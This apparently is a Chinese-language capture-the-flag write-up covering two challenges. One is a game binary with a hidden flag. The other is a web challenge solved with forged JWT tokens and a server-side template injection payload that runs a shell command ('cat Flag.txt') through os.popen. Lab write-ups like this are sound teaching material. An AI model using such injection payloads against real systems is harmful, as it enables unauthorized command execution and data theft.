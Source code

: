 Flag: `CGGC{J00_sh4ll_n07_sH1P_S3cR37S_70_cuS70M3r}`
## Space game
### Recon
這一題因為是賽後才寫WP，所以沒有甚麼太詳細的資訊可以記錄，不過這一題的確很misc，但通靈的方向屢屢受挫

1. 首先題目給予一個網頁型的小遊戲(算是類似七八零年代的那種飛船打外星人的那種)，然後過關的條件是要至少活到最後並且打死30個以上的敵人，但這其實根本就和解題沒關係
2. 如果從動態看，可以看到他import一個檔案(game.gb)，misc的地方在於他把flag藏在這個檔案中，所以其實和遊戲一點關係都沒有(心累啊!!!!!)
### Exploit
![圖片](https://hackmd.io/_uploads/HJSpjdKrT.png)
如果實際去看他的binary，會發現有蠻多個flag，但學長測試下來正確的是`CGGC{Y0U_WIN!!123}`

Flag: `CGGC{Y0U_WIN!!123}`
## Bossti
### Background
JWT(maybe??)
SSTI
### Source code

### Recon
這一題也是搞心態，一開始以為他是和jwt有關的題目，所以在第一天打的時候，有嘗試過直接把jwt token改變，但卻過不了，到了第二天用一樣的token卻有不一樣的效果，不知道是不是server有問題或是作者有更新
![圖片](https://hackmd.io/_uploads/Hy-thOKSp.png)

1. admin頁面
    Payload: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoyLCJyb2xlIjoiYWRtaW4iLCJoYWNrIjoiIn0.kmCiItAN6q9xCmrZ1uqhZZP96_pqD5RBMp1Umv0HFKM`
    ![螢幕擷取畫面 2023-12-03 121645](https://hackmd.io/_uploads/Sk6EGttST.png)
2. boss頁面
    Payload: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJyb2xlIjoiYm9zcyIsImhhY2siOiIifQ.VhS5VSRlR_RrgIlF-gdl-s1_PVHPQCxB3s8oHgwEPJ4`
    ![圖片](https://hackmd.io/_uploads/B17DfKKSa.png)
3. 其實看了URL`http://10.99.111.109:5000/admin?data={%27user_id%27%3A+2,+%27role%27%3A+%27admin%27,+%27hack%27%3A+%27%27}`或`http://10.99.111.109:5000/boss?data={%27user_id%27%3A+1,+%27role%27%3A+%27boss%27,+%27hack%27%3A+%27%27}`才覺得應該和jwt認證沒關係，因為就算換到一個無痕頁面也一樣可以看得到，但重點是boss的頁面有給一個疑似是SSTI的提示(7\*7=49經典的payload)，所以剩下的事情就是SSTI payload瘋狂輸出拿flag
   
### Exploit - SSTI
Payload: `/boss?data={%27user_id%27%3A+1,+%27role%27%3A+%27boss%27,+%27hack%27%3A+%27{{self.__init__.__globals__.__builtins__.__import__("os").popen("cat%20Flag.txt").read()}}%27}`
![圖片](https://hackmd.io/_uploads/Byxfw7KYSa.png)

Flag: `CGGC{"S$T1_V3RY_EZ_2_Pwn3D_C0ngr4t$"}`